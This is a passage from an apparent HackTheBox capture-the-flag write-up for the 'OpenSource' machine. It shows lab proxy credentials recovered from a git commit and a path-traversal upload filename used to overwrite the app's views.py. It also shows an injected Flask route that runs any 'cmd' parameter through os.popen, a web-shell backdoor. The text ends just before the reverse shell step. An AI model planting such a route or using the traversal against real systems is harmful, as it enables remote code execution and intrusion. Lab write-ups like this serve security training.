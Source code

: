 Looking around I discovered that the code we got before is actually a Git repository! It has two branches, `main` and `dev`. Researching the `dev` one I found that this is actually what is deployed in the target and not what I was inspecting before (Was enough to get LFI though).

Researching the repository I found some juicy information in one of the commits to the `dev` branch: 

```bash
┌──(kali㉿kali)-[~/Documents/HTB/OpenSource/source]
└─$ git show a76f8f75f7a4a12b706b0cf9c983796fa1985820
commit a76f8f75f7a4a12b706b0cf9c983796fa1985820
Author: gituser <gituser@local>
Date:   Thu Apr 28 13:46:16 2022 +0200

    updated

diff --git a/app/.vscode/settings.json b/app/.vscode/settings.json
new file mode 100644
index 0000000..5975e3f
--- /dev/null
+++ b/app/.vscode/settings.json
@@ -0,0 +1,5 @@
+{
+  "python.pythonPath": "/home/dev01/.virtualenvs/flask-app-b5GscEs_/bin/python",
+  "http.proxy": "http://dev01:Soulless_Developer#2022@10.10.10.128:5187/",
+  "http.proxyStrictSSL": false
+}
```

I don't really know what this proxy is or does but everything points out that is in the real machine so let's keep the credentials `dev01:Soulless_Developer#2022` and wait for a reverse shell to start investigating this.

### RCE

Next idea, the upload functionality use the same sanitization method we know is vulnerable so if we can send a file with a name like `..//app/app/views.py`, we will overwrite the application `views.py` file and inject custom code. In order to achieve this we can use Burpsuite to catch the upload request and change the filename there.

I uploaded the new `view.py` file adding this function:

```python
...
@app.route('/anthares')
def omega():
    args = request.args
    command = args.get("cmd", default="id", type=str)
    
    return os.popen(command).read()
...
```

And I just had to use a url encoded Python reverse shell to get into the container:
